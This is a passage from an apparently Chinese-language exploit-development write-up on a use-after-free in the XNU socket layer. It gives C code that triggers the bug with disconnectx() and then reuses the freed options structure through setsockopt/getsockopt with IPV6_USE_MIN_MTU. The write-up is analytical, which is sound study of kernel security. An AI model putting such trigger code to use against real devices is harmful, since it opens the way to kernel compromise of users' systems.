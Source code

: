 跟到这里我只能说Socket实在是太庞大了！

## 3. 探索漏洞触发路径

从漏洞分析可以看到这个漏洞函数是可以从用户态进行调用的

```c
448	AUE_NULL	ALL	{ int disconnectx(int s, sae_associd_t aid, sae_connid_t cid); }
```

所以最基本的调用代码如下，调用完函数`disconnectx()`之后，我们就获得了一个存在漏洞的结构体变量`tcp_sock`

```c
int main(int argc, char * argv[]) {
    int tcp_sock = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
    disconnectx(tcp_sock, 0, 0);
}
```

我们知道，UAF漏洞的一个关键点在于释放掉的一个指针后续被继续使用，那我们如何使用一个被关闭后的Socket呢？

Socket有两个属性读写函数`getsockopt()`和`setsockopt()`，两个函数的原型如下

```c
105	AUE_SETSOCKOPT	ALL	{ int setsockopt(int s, int level, int name, caddr_t val, socklen_t valsize); } 
118	AUE_GETSOCKOPT	ALL	{ int getsockopt(int s, int level, int name, caddr_t val, socklen_t *avalsize); } 
```

函数`setsockopt()`的第一个参数是Socket变量，第二个参数有多个选择，看操作的层级，第三个是操作的选项名，这个选项名跟第二个参数`level`有关，第四个参数是新选项值的指针，第五个参数是第四个参数的大小

```c
#define IPV6_USE_MIN_MTU 42

int get_minmtu(int sock, int *minmtu) {
    socklen_t size = sizeof(*minmtu);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, &size);
}

int main(int argc, char * argv[]) {
    int tcp_sock = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
    // SOPT_SET
    int minmtu = -1;
    setsockopt(tcp_sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, &minmtu, sizeof(minmtu));
    // // SOPT_GET
    int mtu;
    get_minmtu(tcp_sock, &mtu);
    NSLog(@"%d\n", mtu);
}
```

为什么第二个参数和第三个参数要设置成`IPPROTO_IPV6`和`IPV6_USE_MIN_MTU`？

这就要先来看最开始那个没有被置为`NULL`的结构体成员`inp->in6p_outputopts`了，这个成员的结构体定义如下
